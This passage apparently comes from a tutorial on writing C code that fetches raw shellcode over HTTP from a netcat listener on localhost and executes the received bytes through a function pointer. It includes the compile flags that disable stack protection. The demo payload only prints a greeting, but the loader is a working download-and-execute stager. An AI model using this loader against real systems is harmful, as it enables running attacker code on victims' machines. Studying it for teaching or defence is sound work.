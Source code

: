 ```
   server = gethostbyname("127.0.0.1");

   
   bzero((char *) &serv_addr, sizeof(serv_addr));
   serv_addr.sin_family = AF_INET;
   bcopy((char *)server->h_addr, (char *)&serv_addr.sin_addr.s_addr, server->h_length);
   serv_addr.sin_port = htons(portno);

   if (connect(sockfd, (struct sockaddr*)&serv_addr, sizeof(serv_addr)) < 0) {
      exit(1);
   }

   bzero(buffer,BSIZE);

   n = write(sockfd, request, strlen(request));

   bzero(buffer,BSIZE);
   n = read(sockfd, buffer, BSIZE);
   printf("jumpting to shellcode\n");
   int (*func)();
   func = (int (*)()) buffer;
   (int)(*func)();

   return 0;
}
```
That'll be it, our small int func buffer routine has been added at the end and this time we are not reading a string but some executable bytes.

This time as I don't want to over-complicate the example I won't use a web server like apache2, I'll use the netcat software to "emulate" a web server for this single request as follows:

```
:/var/www/html$ sudo nc -lvp 80 < sh 
Listening on [0.0.0.0] (family 0, port 80)
Connection from localhost 36428 received!
GET /sh HTTP/1.1
User-Agent: nc/0.0.1
Host: 127.0.0.1
Accept: */*
```
being sh the RAW HEX shellcode. This command basically indicates netcat to just dump the (bytes) from that file to the first client connected to its port 80.

Then running the progam will go like:
```
:~/C/generic$ gcc -w httpget_download_shellcode.c -o sh -fno-stack-protector -z execstack
:~/C/generic$ ./sh 
jumpting to shellcode
Hello!
```
Note that I compiled the program using those flags, otherwise it won't work.

